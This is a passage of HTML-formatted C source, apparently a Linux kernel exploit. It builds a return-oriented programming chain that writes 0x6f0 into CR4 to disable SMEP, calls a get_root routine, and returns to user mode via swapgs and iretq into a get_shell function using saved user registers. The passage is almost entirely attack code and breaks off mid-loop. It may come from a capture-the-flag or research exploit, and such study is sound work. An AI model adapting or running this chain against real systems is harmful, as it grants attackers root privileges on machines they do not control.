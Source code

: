 <div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0xffffffff810d238d</span>;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">//&nbsp;pop&nbsp;rdi;&nbsp;ret;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0x6f0</span>;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0xffffffff81004d80</span>;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">//&nbsp;mov&nbsp;cr4,&nbsp;rdi;&nbsp;pop&nbsp;rbp;&nbsp;ret;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0</span>;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;(size_t)get_root;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0xffffffff81063694</span>;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">//&nbsp;swapgs;&nbsp;pop&nbsp;rbp;&nbsp;ret;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0</span>;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0xffffffff814e35ef</span>;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">//&nbsp;iretq;&nbsp;ret;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;(size_t)get_shell;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;user_cs;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">/*&nbsp;saved&nbsp;CS&nbsp;*/</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;user_rflags;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">/*&nbsp;saved&nbsp;EFLAGS&nbsp;*/</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;user_sp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;rop[i<span style="color:#ff3399"></span><span style="color:#a71d5d">+</span><span style="color:#ff3399"></span><span style="color:#a71d5d">+</span>]&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;user_ss;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">for</span>(<span style="color:#066de2">int</span>&nbsp;i&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0